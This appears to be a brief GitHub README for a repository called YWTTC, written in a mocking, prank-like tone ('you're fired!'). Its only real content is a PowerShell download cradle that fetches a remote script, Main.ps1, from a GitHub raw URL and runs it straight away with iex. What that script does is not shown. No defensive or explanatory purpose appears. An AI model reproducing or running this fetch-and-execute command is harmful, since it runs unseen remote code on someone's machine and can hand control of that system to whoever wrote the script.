 # YWTTC = You Won This Time Cameron!
# 12 Hours shifts succ
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
#But we all know who's gonna be the ultimate winner!!
Also, you're fired!
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
